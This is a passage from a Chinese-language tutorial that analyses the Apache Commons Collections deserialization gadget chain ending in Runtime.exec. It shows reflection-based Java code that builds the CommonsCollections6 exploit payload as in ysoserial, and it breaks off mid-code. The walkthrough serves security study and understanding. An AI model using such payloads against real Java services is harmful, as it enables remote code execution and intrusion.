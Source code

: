 ```
Hashtable.readObject()
	-> Hashtable.reconstitutionPut
	-> LazyMap.equals => AbstractMapDecorator.equals => AbstractMap.equals
	-> m.get() => LazyMap.get()
	-> factory.transform() => ChainedTransformer.transform()
	-> 前文构造的Runtime.getRuntime().exec()
```

## 5. 利用链构造

CommonsCollections6和7的exp构造比较复杂，这里单独拿出来讲一下。

---

### CommonsCollections6

经过前面的分析，我们可以知道CommonsCollections6需要将构造好的TiedMapEntry实例添加到HashSet的值上。

简单的方法就是直接add

```java
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
HashSet map = new HashSet(1);
map.add(entry);
```

复杂一点，就是ysoserail里的实现方法，采用反射机制来完成

其思路主要为：

* 实例化一个HashSet实例
* 通过反射机制获取HashSet的map类属性
* 通过反射机制获取HashMap(map类属性)的table(Node<K,V>)类属性
* 通过反射机制获取Node的key类属性，并设置该key的值为构造好的TiedMapEntry实例

具体代码如下

```java
HashSet map = new HashSet(1);
map.add("foo");
Field f = null;
try {
    f = HashSet.class.getDeclaredField("map");//获取HashSet的map Field对象
} catch (NoSuchFieldException e) {
    f = HashSet.class.getDeclaredField("backingMap");
}
Permit.setAccessible(f);// 设置map可被访问修改
HashMap innimpl = null;
innimpl = (HashMap) f.get(map);// 获取map实例的map类属性

Field f2 = null;
try {
  f2 = HashMap.class.getDeclaredField("table");// 获取HashMap的 table field
} catch (NoSuchFieldException e) {
  f2 = HashMap.class.getDeclaredField("elementData");
}
Permit.setAccessible(f2);// 设置HashMap的field 可被访问
Object[] array = new Object[0];
array = (Object[]) f2.get(innimpl);
Object node = array[0];// 获取Node<k,v>实例
if(node == null){
  node = array[1];
}

Field keyField = null;
try{
  keyField = node.getClass().getDeclaredField("key");// 获取Node的key field
```
